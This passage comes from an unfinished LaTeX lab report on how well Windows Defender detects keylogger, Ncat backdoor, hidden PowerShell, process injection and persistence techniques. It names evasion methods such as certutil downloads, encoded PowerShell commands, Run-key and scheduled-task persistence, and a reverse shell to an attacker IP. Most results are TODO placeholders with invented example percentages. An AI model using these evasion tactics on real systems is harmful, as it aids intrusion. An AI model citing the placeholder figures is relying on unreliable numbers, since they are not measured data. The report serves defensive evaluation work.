			\item \textbf{Application Log (`Application.evtx`):} Monitored for application errors or relevant events.
			\item \textbf{PowerShell Logs:}
			\begin{itemize}
				\item `Microsoft-Windows-PowerShell/Operational`: Event ID 4103 (Module Logging - pipeline execution details), 4104 (Script Block Logging - actual script content). These are critical for de-obfuscating and analyzing PowerShell attacks.
			\end{itemize}
			\item \textbf{Sysmon Logs (if configured):} `Microsoft-Windows-Sysmon/Operational`. Key Event IDs:
			\begin{itemize}
				\item 1: Process creation
				\item 3: Network connection
				\item 7: Image loaded (DLLs)
				\item 11: FileCreate
				\item 12, 13, 14: Registry event (CreateKey, SetValue, DeleteKey)
				\item 22: DNSEvent
			\end{itemize}
		\end{itemize}
		\item \textbf{Process Monitoring (Process Monitor - ProcMon):}
		\begin{itemize}
			\item ProcMon was run during attack execution with filters set to capture relevant process activity (e.g., focusing on `cmd.exe`, `powershell.exe`, the target process for injection, or any suspicious new processes).
			\item Logs were saved in PML format and then converted to CSV/XML for analysis.
			\item Captured data included process creation, file I/O, registry activity, and network connections.
		\end{itemize}
	\end{itemize}
	
	\subsubsection{Network Traffic Analysis}
	\begin{itemize}
		\item \textbf{Wireshark/tcpdump:}
		\begin{itemize}
			\item Network traffic was captured on the victim machine's interface (or a dedicated monitoring interface in the virtual network).
			\item Filters were used to focus on traffic related to the attacker's IP, C2 domains (if any), or suspicious protocols/ports.
			\item PCAP files were saved for later analysis, especially for backdoor connections or data exfiltration attempts.
		\end{itemize}
	\end{itemize}
	
	\subsubsection{Performance Logging}
	\begin{itemize}
		\item \textbf{`activity_logger.py`:} The script `activity_logger.py` was intended to monitor the CPU and memory usage of the Windows Defender process (`SecurityHealthService.exe` or more commonly `MsMpEng.exe` - Antimalware Service Executable)[cite: 4].
		\begin{itemize}
			\item The script was run before, during, and after attack scenarios for a specified duration (e.g., 60 seconds as per the script [cite: 4]).
			\item It logged timestamps, CPU usage (\%), and memory usage (\%).
			\item The output data was used to generate plots showing resource impact.
		\end{itemize}
		\item \textbf{Task Manager/Resource Monitor:} Used for manual observation of system performance during attacks.
	\end{itemize}
	\subsubsection{Data Aggregation}
	All collected logs (Event logs, ProcMon CSVs, Wireshark PCAPs, Defender alert screenshots, performance data) were organized into folders corresponding to each attacker technique and test run. A spreadsheet was maintained to correlate findings, detection status, and relevant log entries.
	
	\subsection{Evaluation Criteria}
	\begin{itemize}
		\item \textbf{Definition of "Detection":} A technique was considered "detected" if:
		\begin{itemize}
			\item Windows Defender (or other tested solution) generated an explicit alert identifying the activity or file as malicious or suspicious.
			\item The malicious process was automatically terminated or quarantined.
			\item A specific, unambiguous log entry was created by the security solution that directly indicated malicious behavior (even if not a high-priority alert).
			\item For persistence, detection includes identifying and/or removing the persistence mechanism (e.g., during a scan or by real-time protection upon creation).
		\end{itemize}
		\item \textbf{Effectiveness Metrics:}
		\begin{itemize}
			\item \textbf{Detection Rate:} For each technique, the percentage of test runs where it was detected.
			\item \textbf{Bypass Rate:} Percentage of test runs where the technique successfully evaded detection.
			\item \textbf{Log Evidence:} Even if not automatically alerted, the presence of sufficient evidence in system logs (Event Logs, Sysmon, ProcMon) that would allow a human analyst to identify the malicious activity. This was qualitatively assessed.
		\end{itemize}
		\item \textbf{Response Time (if measured):}
		\begin{itemize}
			\item Time from attack execution to alert generation (if applicable and measurable). This can be difficult to measure precisely without specialized tools. For this project, it was noted qualitatively (e.g., "immediate alert," "delayed detection after X minutes").
		\end{itemize}
		\item \textbf{Performance Impact:}
		\begin{itemize}
			\item Assessed using data from `activity_logger.py` and manual observation, focusing on CPU and memory spikes or sustained high usage by Windows Defender during attacks compared to baseline.
		\end{itemize}
	\end{itemize}
	\newpage
	
	% --- EXPERIMENTAL RESULTS ---
	\section{Experimental Results}
	This section presents the objective findings of the experiments conducted. Results are organized primarily by attacker technique, detailing the detection status by Windows Defender (and any other solutions tested), relevant log evidence, and observations regarding the performance of security solutions. (Corresponds to Person 3's analysis [cite: 251]).
	
	\subsection{Keylogger Deployment and Detection}
	\begin{itemize}
		\item \textbf{Windows Defender Detection Status:} [TODO: Y/N based on actual test. Example: Detected / Partially Detected / Not Detected].
		\item \textbf{Alert Details (if detected):} [TODO: Name of the threat (e.g., `Behavior:Win32/Keylogger.A!ml`, `Python/Agent.G!tr`), action taken (e.g., Quarantined, Blocked, Alerted only)]. Provide screenshots if available.
		\item \textbf{Relevant Logs:}
		\begin{itemize}
			\item Windows Defender Event Logs: [TODO: Specific Event IDs and messages].
			\item PowerShell Logs (if `cmd\_commands.txt` execution was via PowerShell or involved PowerShell): [TODO: Relevant script blocks or module loading].
			\item Sysmon: [TODO: Event ID 1 (process creation for python.exe, cmd.exe), Event ID 11 (file creation for keylog.py, key.txt), Event ID 12/13 (registry modification if startup was via registry)].
		\end{itemize}
		\item \textbf{Evidence of Keylogging Function (if not detected):} [TODO: e.g., "The `key.txt` file was created and successfully captured keystrokes." Snippet from `key.txt` if appropriate and anonymized].
		\item \textbf{Impact of Evasion Techniques:} [TODO: e.g., "File hiding with `attrib +h` did not prevent detection." or "Execution via batch script was/was not flagged."].
	\end{itemize}
	
	\subsection{Backdoor Creation and Remote Access}
	\begin{itemize}
		\item \textbf{Windows Defender Detection Status:} [TODO: Y/N. Example: Detected Ncat execution / Detected network connection / Not detected].
		\item \textbf{Alert Details (if detected):} [TODO: Threat name, action taken. E.g., detection of `ncat.exe` if its signature is known, or suspicious network activity].
		\item \textbf{Network Logs:}
		\begin{itemize}
			\item Wireshark: [TODO: "Captured outbound TCP connection from victim IP:Port to attacker IP (172.20.10.15):12345." Describe payload if discernible as `cmd.exe` traffic].
			\item Sysmon: [TODO: Event ID 3 (Network connection by `ncat.exe` or `cmd.exe` if `ncat` was child process)].
		\end{itemize}
		\item \textbf{Evidence of Successful Remote Access (if not detected/prevented):} [TODO: e.g., "Remote command prompt was obtained on the attacker machine. Commands like `whoami` and `dir` were successfully executed."].
		\item \textbf{Impact of Evasion Techniques:} [TODO: e.g., "Running Ncat via `start /min` did/did not prevent alerts." "Use of a reverse shell was/was not effective in bypassing firewall for this test."].
	\end{itemize}
	
	\subsection{Non-Visual Command Execution and Process Hiding}
	\begin{itemize}
		\item \textbf{Windows Defender Detection Status:} [TODO: Y/N for hidden `cmd.exe`, hidden PowerShell, LOLBAS usage. Example: "Hidden PowerShell execution using `-WindowStyle Hidden` was not directly alerted." "Use of `certutil.exe` for downloads was/was not flagged."].
		\item \textbf{Alert Details (if detected):} [TODO: Specific alerts, e.g., suspicious PowerShell command line, malicious script content if Script Block Logging led to detection].
		\item \textbf{Evidence of Command Execution (if not detected):}
		\begin{itemize}
			\item File system changes: [TODO: "Files `hidden_file.txt` and `ps_hidden_file.txt` were created successfully."].
			\item Process Monitor Logs: [TODO: Showed `cmd.exe` or `powershell.exe` processes with no visible window, and their respective actions (file I/O, process creation)].
			\item PowerShell Logs: [TODO: "Script Block Logging captured the executed PowerShell commands even when run with `-WindowStyle Hidden` or `-EncodedCommand` (after automatic de-obfuscation by the logger)."].
		\end{itemize}
		\item \textbf{Impact of Evasion Techniques:} [TODO: e.g., "`-WindowStyle Hidden` effectively hid the window, but PowerShell logs still captured activity if enabled." "Base64 encoding of PowerShell commands was decoded by Script Block Logging."].
	\end{itemize}
	
	\subsection{Process Injection and Memory Manipulation}
	\begin{itemize}
		\item \textbf{Windows Defender Detection Status:} [TODO: Y/N. Example: Detected the injector script / Detected suspicious memory access by the target process / Detected shellcode execution / Not detected].
		\item \textbf{Alert Details (if detected):} [TODO: Threat name (e.g., `Behavior:Win32/ProcInject.A!ml`, `Meterpreter.C`), action taken].
		\item \textbf{Evidence of Successful Injection (if not detected/prevented):}
		\begin{itemize}
			\item [TODO: e.g., "`calc.exe` was launched by the injected shellcode." or "A Meterpreter session was established from the context of `notepad.exe`."].
			\item ProcMon/Sysmon: [TODO: Show the target process (`notepad.exe`) making unexpected network connections (Sysmon Event ID 3) or spawning child processes (Sysmon Event ID 1) if applicable to the shellcode].
		\end{itemize}
		\item \textbf{Impact of Evasion Techniques:} [TODO: e.g., "Injecting into `explorer.exe` was more/less likely to be detected than `notepad.exe`." "The type of shellcode (e.g., staged vs. stageless) affected detection."].
	\end{itemize}
	
	\subsection{Persistence Techniques}
	\begin{itemize}
		\item \textbf{Windows Defender Detection Status:}
		\begin{itemize}
			\item \textbf{Startup Folder:} [TODO: Y/N for `keylog.py` placement. Already addressed in Keylogger section, but reiterate persistence aspect].
			\item \textbf{Registry Run Key:} [TODO: Y/N for detection of `reg add` command or detection of the payload at next startup].
			\item \textbf{Scheduled Task:} [TODO: Y/N for detection of `schtasks /create` command or detection of the payload upon trigger].
		\end{itemize}
		\item \textbf{Alert Details (if detected):} [TODO: Threat name (e.g., `Behavior:Win32/Persistence.A`, `Autorun.G`), action taken (e.g., registry key removed, scheduled task disabled)].
		\item \textbf{Evidence of Persistence (if not detected/prevented):}
		\begin{itemize}
			\item [TODO: "After reboot, `keylog.py` started automatically." "The payload specified in the Run key executed upon login." "The scheduled task triggered successfully."].
			\item Autoruns tool: [TODO: Screenshots from Autoruns showing the added persistence entries].
		\end{itemize}
		\item \textbf{Impact of Evasion Techniques:} [TODO: e.g., "Using HKCU for registry persistence was less scrutinized than HKLM." "Naming scheduled tasks innocuously helped avoid immediate suspicion."].
	\end{itemize}
	
	\subsection{Security Solution Performance Analysis}
	\begin{itemize}
		\item \textbf{CPU/Memory Usage Graphs (Windows Defender):}
		\begin{figure}[H]
			\centering
			
\includegraphics[width=0.8\textwidth]{defender_resource_usage.pdf} % Assuming this is the correct file name
			\caption{Windows Defender Resource Usage (Sample during [Specify Attack Scenario, e.g., Keylogger Execution]). The solid line represents CPU \% and the dashed line represents RAM (MB)[cite: 257].} % Update caption as needed
			\label{fig:defender_usage}
		\end{figure}
		\item \textbf{Analysis of Resource Impact:}
		\begin{itemize}
			\item [TODO: Describe observations from the graph and `activity_logger.py` data. e.g., "During idle state, Windows Defender (MsMpEng.exe/SecurityHealthService.exe) CPU usage was typically below X\% and memory Y MB."].
			\item [TODO: "During the [Specify Attack Scenario, e.g., process injection attempt], CPU usage spiked to Z\% for S seconds." or "Memory usage increased by M MB."].
			\item [TODO: "Overall, the resource impact of Windows Defender during the tested attacks was [negligible/moderate/significant]."].
		\end{itemize}
	\end{itemize}
	
	\subsection{Comparative Analysis (if multiple solutions were tested or for different log sources)}
	This section can also be used to compare the visibility provided by different logging mechanisms.
	\begin{itemize}
		\item \textbf{Summary Table of Detection Rates (Example):}
		\begin{table}[H]
			\centering
			\caption{Detection Rates by Attacker Technique}
			\label{tab:detection_rates}
			\begin{tabular}{lcc}
				\toprule
				Attacker Technique & Windows Defender & SentinelOne (Example) \\
				\midrule
				Keylogger Deployment & [TODO: e.g., 60\%] & [TODO: e.g., 80\%] \\
				Backdoor Creation & [TODO: e.g., 40\%] & [TODO: e.g., 75\%] \\
				Non-Visual Commands & [TODO: e.g., 30\%] & [TODO: e.g., 70\%] \\
				Process Injection & [TODO: e.g., 50\%] & [TODO: e.g., 85\%] \\
				Persistence & [TODO: e.g., 70\%] & [TODO: e.g., 90\%] \\
				\bottomrule
			\end{tabular}
		\end{table}
		The figure below shows a bar chart representation of detection rates per stage.
		\begin{figure}[H]
			\centering
			
\includegraphics[width=0.8\textwidth]{detection_rate_bars.pdf}
			\caption{Detection Rate per Stage (Defender vs SentinelOne example)[cite: 256]. "DL" could refer to Direct Download/Execution, "Persist" to Persistence, "C2" to Command & Control.} % Clarify "DL", "Persist", "C2" if possible
			\label{fig:detection_bars}
		\end{figure}
		
		\item \textbf{Visibility Heatmap Analysis:}
		The heatmap below illustrates the perceived visibility or detection percentage for different attack categories by Defender and another solution (e.g., SentinelOne).
		\begin{figure}[H]
			\centering
			
\includegraphics[width=0.8\textwidth]{visibility_heatmap.pdf}
			\caption{Visibility Heatmap for Attack Categories[cite: 255]. Categories might include Batch script execution, Direct Download/Execution (DL), Keylogging, Persistence, and C2.} % Clarify categories
			\label{fig:visibility_heatmap}
		\end{figure}
		[TODO: Discuss the heatmap, e.g., "Defender showed X\% visibility for Keylog attacks, while SentinelOne showed Y\%..."]
		
		\item \textbf{Log Completeness/Artifact Coverage:}
		The graph below shows the artifact coverage percentage by different log sources for Defender and another solution.
		\begin{figure}[H]
			\centering
			
\includegraphics[width=0.8\textwidth]{log_completeness_stacked.pdf}
			\caption{Log Completeness - Artifact Coverage by Source[cite: 254]. Sources include Sysmon, EventLog, EDR logs, and Pcap.}
			\label{fig:log_completeness}
		\end{figure}
		[TODO: Discuss this chart, e.g., "For scenarios involving Defender, Sysmon contributed significantly to artifact coverage (X\%). EventLog provided Y\%..."]
		\item \textbf{Alert Verbosity and Usefulness:} [TODO: Compare the quality of alerts, amount of detail provided, and false positive rates if observed].
	\end{itemize}
	\newpage
	
	% --- DISCUSSION AND CONCLUSION ---
	\section{Discussion and Conclusion}
	(Corresponds to Person 3's reporting, with team input [cite: 251])
	\subsection{Interpretation of Results}
	\begin{itemize}
		\item \textbf{Analysis of Detections and Misses:}
		\begin{itemize}
			\item [TODO: For each technique, discuss *why* it was detected or missed. e.g., "Keyloggers using common libraries like `pynput` were likely detected due to signature-based or behavioral rules in Defender targeting known keylogging APIs." Or "Fileless PowerShell attacks using encoded commands were often missed by basic Defender settings unless advanced PowerShell logging was enabled and actively monitored, as AMSI could be bypassed or the obfuscation was sufficient."].
			\item [TODO: "Process injection techniques that relied on direct `CreateRemoteThread` after writing to a common process like `notepad.exe` had a [higher/lower] chance of detection compared to more sophisticated methods like [mention one if researched, e.g., APC injection or thread execution hijacking]. This could be due to Defender monitoring for cross-process memory writes followed by thread creation."].
			\item [TODO: "LOLBAS techniques, such as using `certutil` for downloads, were [effective/ineffective] in evading detection because [reason, e.g., `certutil` is a legitimate tool and its network activity might not be flagged as inherently malicious without further context or EDR capabilities]."].
		\end{itemize}
		\item \textbf{Effectiveness of Evasion Tactics:}
		\begin{itemize}
			\item [TODO: Which specific evasion methods (file hiding, hidden windows, reverse shells, LOLBAS, obfuscation, fileless execution) proved most effective against Windows Defender? Which were least effective?].
			\item [TODO: e.g., "Simple file hiding using `attrib +h` was largely ineffective against Defender's scanning capabilities." "Running commands in hidden windows (`start /min`, `PowerShell -WindowStyle Hidden`) successfully concealed visual activity from the user but did not prevent logging if appropriate logging was enabled."].
		\end{itemize}
		\item \textbf{Overall Performance of Windows Defender (and others, if tested):}
		\begin{itemize}
			\item [TODO: Summarize strengths and weaknesses observed. e.g., "Windows Defender demonstrated good detection for known malware signatures and some common malicious behaviors, particularly related to persistence in startup folders." "However, it struggled with more nuanced or fileless techniques, especially those leveraging PowerShell heavily or using legitimate tools for malicious purposes, unless enhanced logging (like Script Block Logging, Sysmon) was active and analyzed."].
			\item [TODO: If other tools like SentinelOne were implied by the graphs, discuss how their performance compared, e.g., "The provided graphs suggest SentinelOne had higher detection rates across several categories (Figure \ref{fig:detection_bars}) and offered greater visibility (Figure \ref{fig:visibility_heatmap}), potentially due to more advanced EDR capabilities and behavioral heuristics." [cite: 255, 256]].
		\end{itemize}
		\item \textbf{Significance of Logged Data for Manual vs. Automated Detection:}
		\begin{itemize}
			\item [TODO: Discuss the importance of logs. e.g., "In many instances where Windows Defender did not generate an explicit alert, system logs (especially PowerShell logs, Sysmon, and ProcMon traces) contained sufficient artifacts to manually identify the malicious activity."].
			\item [TODO: "This highlights the importance of comprehensive logging for threat hunting and incident response, even when automated defenses are in place. For example, Sysmon Event ID 1 (Process Create) combined with Event ID 3 (Network Connection) could reveal a hidden backdoor even if the binary itself wasn't flagged."].
			\item [TODO: "The log completeness chart (Figure \ref{fig:log_completeness}) indicates that a combination of Sysmon and EDR logs provides the most comprehensive artifact coverage[cite: 254]. Relying solely on default Event Logs or basic Defender alerts may leave significant visibility gaps."].
		\end{itemize}
	\end{itemize}
	
	\subsection{Comparison with Expected Outcomes/Literature}
	\begin{itemize}
		\item [TODO: Did the results align with expectations based on the project proposal or general knowledge from security blogs/articles? e.g., "The findings are consistent with much of the current security literature, which suggests that while native OS security tools like Windows Defender are improving, they often lag behind dedicated EDR solutions in detecting advanced and evasive threats."].
		\item [TODO: "The effectiveness of LOLBAS techniques aligns with reports from MITRE and various security researchers, emphasizing the challenge they pose to signature-based detection."].
		\item [TODO: Refer to any specific papers from the "OSSEC - 7 - Security.pdf" [cite: 1] or general concepts like the "cat-and-mouse game" if relevant here.].
	\end{itemize}
	
	\subsection{Challenges Encountered and Limitations of the Study}
	\begin{itemize}
		\item \textbf{Technical Hurdles:}
		\begin{itemize}
			\item [TODO: e.g., "Configuring specific versions of tools or ensuring consistent behavior of exploits across minor Windows updates sometimes proved challenging."].
			\item [TODO: "Obtaining reliable performance metrics for Defender without impacting the tests required careful setup of the `activity_logger.py` script."].
			\item [TODO: "Differentiating between legitimate system activity and subtle malicious actions in logs was sometimes complex and time-consuming."].
		\end{itemize}
		\item \textbf{Scope Limitations:}
		\begin{itemize}
			\item \textbf{Environment:} The study was conducted in a controlled virtual lab environment. Results might differ in complex, real-world enterprise networks with additional security layers (proxies, network IDS, etc.).
			\item \textbf{Malware/Tool Samples:} The techniques tested used specific scripts and tools (e.g., `keylog.py`, `ncat`). More advanced or custom-obfuscated malware might yield different detection rates.
			\item \textbf{Evasion Variations:} Only a subset of possible evasion techniques for each attack category was tested. Attackers constantly devise new variations.
			\item \textbf{Software Versions:} Results are specific to the versions of Windows and Windows Defender (and other software) used during testing. Future updates may alter detection capabilities.
			\item \textbf{Focus:} The primary focus was on Windows Defender. A broader comparison with multiple leading EDR solutions would provide a more comprehensive market view.
		\end{itemize}
		\item \textbf{Ethical Considerations:} All tests were performed in an isolated, controlled environment on systems owned by the researchers, with no intent or capability to affect external systems or data.
	\end{itemize}
	
	\subsection{Conclusion}
	\begin{itemize}
		\item \textbf{Summary of Key Findings:}
		\begin{itemize}
			\item [TODO: Briefly restate the most important findings, e.g., "This project demonstrated that while Windows Defender provides a baseline level of security, it can be bypassed by moderately sophisticated evasion techniques, particularly those involving fileless attacks, LOLBAS, and careful persistence mechanisms."].
			\item [TODO: "Advanced logging (PowerShell Script Block Logging, Sysmon) is critical for detecting activities that do not trigger immediate alerts."].
			\item [TODO: "The resource impact of Defender during these attacks was generally [state finding, e.g., manageable]."].
		\end{itemize}
		\item \textbf{Achievement of Project Objectives:}
		\begin{itemize}
			\item [TODO: State whether the initial aims (evaluating detection of keylogger, backdoor, non-visual commands, process injection, persistence; assessing Defender; analyzing logs) were met[cite: 246, 247]. e.g., "The project successfully evaluated the detection capabilities of Windows Defender against the five specified attacker techniques and analyzed the relevant system and network logs, thereby achieving its primary objectives."].
		\end{itemize}
		\item \textbf{Overall Statement on Windows Security against Tested Techniques:}
		\begin{itemize}
			\item [TODO: e.g., "Windows security, relying solely on default Windows Defender configurations, presents exploitable gaps for attackers employing stealthy techniques. A defense-in-depth approach, incorporating enhanced monitoring, proactive threat hunting, and potentially advanced EDR solutions, is necessary to effectively counter these threats in modern environments."].
		\end{itemize}
	\end{itemize}
	
	\subsection{Future Work and Recommendations}
	\begin{itemize}
